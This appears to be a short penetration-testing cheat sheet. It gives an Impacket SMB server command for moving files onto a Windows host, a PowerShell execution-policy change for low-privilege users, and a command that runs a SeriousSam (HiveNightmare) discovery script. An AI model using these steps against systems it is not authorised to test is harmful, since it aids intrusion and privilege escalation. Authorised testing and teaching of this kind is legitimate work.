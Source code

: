# Pentest Guides 

## Feching files to Windows host

Linux | Windows
-------|--------
```sudo smbserver.py -smb2support -user complexia -password complexia share $(pwd)``` | ```\\192.168.1.1\share```



## Vulnerabilities - Windows

### SeriousSam

***Setup Command***

*Running a script on a low privilege user will cause an error, run the command below*

```Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser```


**Discovery methods**

Method | Command
-------|--------
PowerShell | ```.\SeriousSam.ps1```


